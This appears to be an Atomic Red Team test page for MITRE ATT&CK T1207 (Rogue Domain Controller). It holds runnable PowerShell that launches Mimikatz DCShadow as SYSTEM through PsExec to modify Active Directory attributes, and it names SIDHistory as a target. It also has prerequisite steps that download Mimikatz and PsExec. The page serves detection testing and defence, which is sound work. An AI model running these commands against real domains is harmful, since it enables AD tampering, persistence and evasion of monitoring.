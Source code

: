 # T1207 - Rogue Domain Controller
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1207)
<blockquote>Adversaries may register a rogue Domain Controller to enable manipulation of Active Directory data. DCShadow may be used to create a rogue Domain Controller (DC). DCShadow is a method of manipulating Active Directory (AD) data, including objects and schemas, by registering (or reusing an inactive registration) and simulating the behavior of a DC. (Citation: DCShadow Blog) Once registered, a rogue DC may be able to inject and replicate changes into AD infrastructure for any domain object, including credentials and keys.

Registering a rogue DC involves creating a new server and nTDSDSA objects in the Configuration partition of the AD schema, which requires Administrator privileges (either Domain or local to the DC) or the KRBTGT hash. (Citation: Adsecurity Mimikatz Guide)

This technique may bypass system logging and security monitors such as security information and event management (SIEM) products (since actions taken on a rogue DC may not be reported to these sensors). (Citation: DCShadow Blog) The technique may also be used to alter and delete replication and other associated metadata to obstruct forensic analysis. Adversaries may also utilize this technique to perform [SID-History Injection](https://attack.mitre.org/techniques/T1178) and/or manipulate AD objects (such as accounts, access control lists, schemas) to establish backdoors for Persistence. (Citation: DCShadow Blog)</blockquote>

## Atomic Tests

- [Atomic Test #1 - DCShadow - Mimikatz](#atomic-test-1---dcshadow---mimikatz)


<br/>

## Atomic Test #1 - DCShadow - Mimikatz
Use Mimikatz DCShadow method to simulate behavior of a Domain Controller and edit protected attribute.

[DCShadow](https://www.dcshadow.com/)
[Additional Reference](http://www.labofapenetrationtester.com/2018/04/dcshadow.html)

It will set the badPwdCount attribute of the target user (user/machine account) to 9999. You can check after with:
Get-ADObject -LDAPFilter '(samaccountname=<user>)' -Properties badpwdcount | select-object -ExpandProperty badpwdcount

Need SYSTEM privileges locally (automatically obtained via PsExec, so running as admin is sufficient), and Domain Admin remotely.
The easiest is to run elevated and as a Domain Admin user.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| object | Targeted object (for machine account do not forget to add final '$') | string | bruce.wayne|
| attribute | Object attribute to edit, interesting ones: badpwdcount, primaryGroupId, SIDHistory... | string | badpwdcount|
| value | Value to assign to object attribute | string | 9999|
| mimikatz_path | Mimikatz windows executable | path | $env:TEMP&#92;mimikatz&#92;x64&#92;mimikatz.exe|
| psexec_path | Path to PsExec | string | C:&#92;PSTools&#92;PsExec.exe|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
# starting fake DC server, as SYSTEM (required)
$dc_output_file = "$env:TEMP\art-T1207-mimikatz-DC.log"
Remove-Item $dc_output_file -ErrorAction Ignore
$mimikatzParam ="`"log $dc_output_file`" `"lsadump::dcshadow /object:#{object} /attribute:#{attribute} /value:#{value}`" `"exit`""
$dc = Start-Process -FilePath cmd.exe -Verb Runas -ArgumentList "/c #{psexec_path} /accepteula -d -s #{mimikatz_path} $mimikatzParam"

# wait for fake DC server to be ready...
Start-Sleep -Seconds 5

# server ready, so trigger replication (push) and wait until it finished
& #{mimikatz_path} "lsadump::dcshadow /push" "exit"

Write-Host "`nWaiting for fake DC server to return"
Wait-Process $dc

Write-Host "`nOutput from fake DC server:"
Get-Content $dc_output_file
Start-Sleep 1 # wait a little until the file is not locked anymore so we can actually delete it
Remove-Item $dc_output_file -ErrorAction Ignore

Write-Host "End of DCShadow"
```

#### Cleanup Commands:
```powershell
Stop-Process -Name "mimikatz" -Force -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: Mimikatz executor must exist on disk and at specified location (#{mimikatz_path})
##### Check Prereq Commands:
```powershell
$mimikatz_path = cmd /c echo #{mimikatz_path}
if (Test-Path $mimikatz_path) {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```powershell
$mimikatz_path = cmd /c echo #{mimikatz_path}
Invoke-WebRequest "https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20200918-fix/mimikatz_trunk.zip" -OutFile "$env:TEMP\mimikatz.zip"
Expand-Archive $env:TEMP\mimikatz.zip $env:TEMP\mimikatz -Force
New-Item -ItemType Directory (Split-Path $mimikatz_path) -Force | Out-Null
Move-Item $env:TEMP\mimikatz\x64\mimikatz.exe $mimikatz_path -Force
```
##### Description: PsExec tool from Sysinternals must exist on disk at specified location (#{psexec_path})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{psexec_path}") { exit 0} else { exit 1} 
```
##### Get Prereq Commands:
```powershell
Invoke-WebRequest "https://download.sysinternals.com/files/PSTools.zip" -OutFile "$env:TEMP\PsTools.zip"
Expand-Archive $env:TEMP\PsTools.zip $env:TEMP\PsTools -Force
New-Item -ItemType Directory (Split-Path "#{psexec_path}") -Force | Out-Null
Copy-Item $env:TEMP\PsTools\PsExec.exe "#{psexec_path}" -Force
```




<br/>
